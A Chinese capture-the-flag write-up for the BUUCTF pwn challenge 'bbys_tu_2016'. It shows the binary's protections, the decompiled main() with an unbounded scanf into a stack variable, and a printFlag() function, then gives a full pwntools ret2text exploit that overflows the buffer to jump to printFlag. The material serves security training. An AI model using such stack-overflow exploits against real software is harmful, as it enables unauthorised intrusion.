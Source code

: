 ```yaml
---
author: 
  name: Zephyr
title: bbys tu 2016
date: 2022-4-6 17:18:10
permalink: /pages/2e1547494524d1aa
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bbys tu 2016

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bbys_tu_2016/bbys_tu_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+14h] [ebp-Ch]

  puts("This program is hungry. You should feed it.");
  __isoc99_scanf("%s", &v4);
  puts("Do you feel the flow?");
  return 0;
}
```

printFlag函数如下：

```c
int printFlag()
{
  char s; // [esp+1Ah] [ebp-3Eh]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  fgets(&s, 50, stream);
  puts(&s);
  fflush(stdout);
  return fclose(stream);
}
```

静态链接

## 思路分析

1. 目前信息：

   - `main`函数存在任意长度的溢出点
   - `printFlag`函数可打印`flag`
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/bbys_tu_2016/bbys_tu_2016'
# io = remote('node4.buuoj.cn', 26261)
io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x14+4
printFlag_addr=elf.symbols['printFlag']
main_addr=elf.symbols['main']
payload=flat(['a'*padding,printFlag_addr,main_addr])
io.sendline(payload)
io.interactive()
```

